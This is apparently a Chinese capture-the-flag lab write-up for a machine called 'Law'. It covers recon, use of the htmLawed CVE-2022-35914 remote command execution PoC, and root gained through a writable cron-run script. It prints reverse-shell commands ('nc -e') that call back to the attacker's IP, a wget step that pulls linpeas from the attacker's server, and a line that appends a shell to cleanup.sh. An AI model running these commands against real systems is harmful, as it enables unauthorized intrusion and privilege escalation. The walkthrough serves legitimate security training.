







# ✔️ Law

## 建立立足点

### 信息收集

* 使用Nmap对目标系统的开放端口进行扫描：

```bash
nmap -sC -sV -p- -oA law 192.168.210.190 --open
```

<figure><figcaption></figcaption></figure>

* 检查80端口上的内容，发现正在运行的服务及其版本号为：htmlawed 1.2.5

<figure><figcaption></figcaption></figure>

### 漏洞查阅

* 搜索htmlawed 1.2.5相关已知公开漏洞，发现一个远程命令执行漏洞：

<figure><figcaption></figcaption></figure>

* 得知htmlawed 1.2.5版本存在着CVE-2022-35914的漏洞，该漏洞说明了htmlawed是属于GLPI软件中的一个第三方库，其中包含了一个可用于执行系统命令的测试文件的默认路径：**vendor/htmlawed/htmlawed/htmLawedTest.php**，这意味着我们可以未经身份验证就能执行远程代码执行：

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

### 漏洞利用

* 直接访问该路径失败，没找到这个页面：

<figure><figcaption></figcaption></figure>

* 同时找到了适用于CVE-2022-35914的PoC，但利用没有成功：

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

* 分别使用dirsearch和gobuster没有扫出来任何文件/目录，推测目标系统中没有这个路径，因此尝试修改脚本中的默认路径为根目录：

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

* 此时发现脚本可以成功执行：

<figure><figcaption></figcaption></figure>

### GET SHELL

* 根据利用脚本的帮助信息，可以指定执行的命令，因此直接指定反弹shell：

```bash
python3 CVE-2022-35914.py -u http://192.168.228.190 -c 'nc -e /bin/sh 192.168.45.161 4444'
```

<figure><figcaption></figcaption></figure>

* 本机做好监听，即可获得回连的shell：

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

```bash
# 升级shell
find / -name python*
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

## 权限提升

### 本地信息收集

* 简单的手动枚举没有什么能利用的，决定上传linpeas进行本地信息收集，当前所在的/var/www/目录没有写入权限，所以要切换到/tmp目录下：

```bash
# 在Kali本机linpeas.sh脚本所在的目录下开启服务器
python3 -m http.server 8888
# 在目标系统的/tmp目录下获取脚本文件
wget http://192.168.45.161:8888/linpeas.sh
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

* 执行linpeas.sh脚本后，虽然没有找到可以直接利用的凭证信息，但是也发现了以下两处都出现了/var/www/目录下的<mark style="color:red;">**cleanup.sh文件**</mark>：

<figure><figcaption></figcaption></figure>

* 这部分意味着以下文件可以由非root用户创建和修改：

<figure><figcaption></figcaption></figure>

* 这部分意味着当前的用户权限对以下文件是有写入权限的：

<figure><figcaption></figcaption></figure>

### 漏洞利用

* 回到/var/www/目录下，查看cleanup.sh文件内容，发现是一个用于删除log日志的脚本文件，大概率和计划任务有关联：

<figure><figcaption></figcaption></figure>

* 查看计划任务：

<figure><figcaption></figcaption></figure>

* 在linpeas的输出信息中发现设置了一个用于定时清理的计时器：phpsessionclean.timer

<figure><figcaption></figcaption></figure>

* 在阅读/cron.d目录中的php文件内容时，里面也设置了每第9分钟和第39分钟的时候以root身份运行一次sessionclean文件：

<figure><figcaption></figcaption></figure>

### ROOT

* 由此，当我们可以以低权限账户来修改cleanup.sh的内容时，直接写入反弹shell的命令，然后等待计划任务自动执行，即可获取到shell：

```bash
echo 'nc -e /bin/bash 192.168.45.161 9999' >> cleanup.sh
```

<figure><figcaption></figcaption></figure>

* 在Kali本机做好监听，等待即可：

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>


本例get shell阶段当找不到漏洞利用的默认路径时，以为掉进了“兔子洞”，心态有点崩，但是因为该机器开放端口只有两个，在没有任何有效凭证的情况下，只有80端口是切入点，因此只要冷静下来尝试多修改几次脚本中的URI，就能利用成功。

利用计划任务进行提权的本质是，找到目标系统中可以让低权限账户修改的脚本，并且该脚本会由高权限账户定期执行，此时只需要写入自定义的操作，等待其定期执行即可。

